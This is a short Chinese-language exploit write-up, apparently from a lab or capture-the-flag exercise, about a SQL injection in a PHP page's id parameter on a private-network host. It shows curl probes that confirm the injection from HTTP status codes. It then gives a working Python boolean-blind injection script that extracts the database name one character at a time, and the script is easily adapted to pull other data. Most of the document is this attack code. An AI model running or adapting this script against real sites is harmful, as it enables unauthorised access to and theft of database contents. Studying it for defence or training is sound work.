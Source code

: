 默认访问 302跳转到 `../login/login.php`
 
 下面的代码大概就GET传进去一个id 如果sql 语句查询到结果则返回状态码404
 
 
 > 接下来的sql注入结果主要看返回状态码
 
```shell
$ curl "http://172.16.1.65/item/viewItem.php?id=1" -v
# 响应状态码 404
 
$ curl "http://172.16.1.65/item/viewItem.php?id=-1" -v
# 响应状态码 302
 
$ curl "http://172.16.1.65/item/viewItem.php?id=-1+or+1=1" -v
# 响应状态码 404
 
$ curl "http://172.16.1.65/item/viewItem.php?id=-1+or+1=2" -v
# 响应状态码 404
```

> 经过测试验证，SQL 注入无疑
> 接下使用slqmap 或者写脚本

# sql-injection-python-script

```python
import requests
import binascii

host = '172.16.1.65'
target = f'http://{host}/item/viewItem.php?id='
headers = {"Content-Type": "application/x-www-form-urlencoded"}

def exp(pay):
    r = '' 
    for i in range(1,100):
        low = 32
        high = 127
        mid = (low + high) // 2
        while(low < high):

            payload = f'20+or+ascii(substr(({pay}),{i},1))>{mid}'

            url = target + payload
            #print(url)
			#v1 = requests.get(url=url,headers=headers,proxies={'http':'http://127.0.0.1:8080'},allow_redirects=False)
            v1 = requests.get(url=url,headers=headers,allow_redirects=False)
			

            if (v1.status_code==404):
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if mid == 32 or mid == 127:
            break
        r += chr(mid)
        print(r)
    return r


pay = 'database()'
exp(pay)
# 查看当前数据库
```